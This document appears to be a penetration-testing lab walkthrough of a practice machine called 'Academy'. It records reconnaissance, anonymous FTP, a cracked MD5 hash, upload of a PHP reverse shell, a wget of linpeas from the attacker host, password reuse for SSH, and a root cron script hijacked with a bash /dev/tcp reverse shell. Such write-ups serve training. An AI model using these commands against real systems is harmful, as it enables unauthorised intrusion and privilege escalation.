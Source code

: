 `sudo arp-scan -l`

Target - 192.168.32.133 

```
nmap -sC -sV 192.168.32.133 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-10 00:03 EDT
Nmap scan report for 192.168.32.133
Host is up (0.000062s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.32.131
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:10:37:E0 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.67 seconds

```


**Interesting Findings**

`|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt`

```
ftp 192.168.32.133 
Connected to 192.168.32.133.
220 (vsFTPd 3.0.3)
Name (192.168.32.133:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||41136|)
150 Here comes the directory listing.
-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
229 Entering Extended Passive Mode (|||55649|)
150 Opening BINARY mode data connection for note.txt (776 bytes).
100% |********************************|   776      737.17 KiB/s    00:00 ETA
226 Transfer complete.
776 bytes received in 00:00 (543.62 KiB/s)
ftp> exit
221 Goodbye.  
┌──(kali㉿kali)-[~]
└─$ ls
Desktop    Downloads  note.txt  Public     Videos
Documents  Music      Pictures  Templates
┌──(kali㉿kali)-[~]
└─$ cat note.txt
Hello Heath !
Grimmie has setup the test website for the new academy.
I told him not to use the same password everywhere, he will change it ASAP.


I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.


Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
We can always adapt it to our needs.

-jdelta
         
```
Possible username and password - ==Grimmie== - try these ('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

Hashed value
`cd73502828457d15655bbd7a63fb0bc8	md5	student`


#ffuf
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt:FUZZ -u http://192.168.32.133/FUZZ -s
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ 
#
# Suite 300, San Francisco, California, 94105, USA.
# or send a letter to Creative Commons, 171 Second Street, 
# Copyright 2007 James Fisher

# Unordered case sensative list, where entries were found 
# Attribution-Share Alike 3.0 License. To view a copy of this 
# This work is licensed under the Creative Commons 
# on atleast 2 host.  This was the first draft of the list.
#
#
# directory-list-1.0.txt
#
phpmyadmin
academy

```

by accessing {ip}/academy

Credentials: 10201321/student worked
![[Pasted image 20250510052100.png]]


I was able to upload the notes.txt file to images. Since we're using PHP, let's try a reverse shell script
![[Pasted image 20250510052410.png]]

I'll use pentestmonkey's php-reverse-shell

![[Pasted image 20250510052519.png]]
I'll start a nc listener
![[Pasted image 20250510052534.png]]

After uploading the file, it instantly executes granting me shell access
![[Pasted image 20250510052629.png]]
![[Pasted image 20250510052701.png]]


Let's upgrade the shell to a fully interactive shell
`python -c 'import pty;pty.spawn("/bin/bash")';`


#linpeas
Let's use Linpeas to search for privilege escalation

![[Pasted image 20250510053352.png]]

I will then cd to tmp on the victim and run 
`wget http://192.168.32.131:8080/linpeas.sh`
![[Pasted image 20250510053429.png]]


Interesting finds - `* * * * * /home/grimmie/backup.sh`

```
╔══════════╣ Searching passwords in config PHP files
/usr/share/phpmyadmin/config.inc.php:$cfg['Servers'][$i]['AllowNoPassword'] = false;                                                                        
/usr/share/phpmyadmin/config.sample.inc.php:$cfg['Servers'][$i]['AllowNoPassword'] = false;
/usr/share/phpmyadmin/libraries/config.default.php:$cfg['Servers'][$i]['AllowNoPassword'] = false;
/usr/share/phpmyadmin/libraries/config.default.php:$cfg['ShowChgPassword'] = true;
/var/www/html/academy/admin/includes/config.php:$mysql_password = "My_V3ryS3cur3_P4ss";
/var/www/html/academy/includes/config.php:$mysql_password = "My_V3ryS3cur3_P4ss";

```


```
$ cat /var/www/html/academy/admin/includes/config.php
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");


?>
$ 

```

Let's quickly try to check for **==password reuse==**:
`cat /etc/passwd`  - at the bottom, grimmie is on the user list
`ssh grimmie@192.168.32.133`

==We in!==
![[Pasted image 20250510054243.png]]

Username: grimmie
Password: My_V3ryS3cur3_P4ss


```
grimmie@academy:~$ cat backup.sh
#!/bin/bash

rm /tmp/backup.zip
zip -r /tmp/backup.zip /var/www/html/academy/includes
chmod 700 /tmp/backup.zip

```

#pspy
Let's check if this runs using **Pspy64**

![[Pasted image 20250510054937.png]]


`2025/05/10 00:50:01 CMD: UID=0     PID=16118  | /bin/bash /home/grimmie/backup.sh ` confirms this file runs (Starts every minute)

We'll use a bash **reverse shell** and insert it into backup.sh
`bash -i >& /dev/tcp/192.168.32.131/4445 0>&1`

![[Pasted image 20250510055401.png]]

Easy peasy

![[Pasted image 20250510055436.png]]

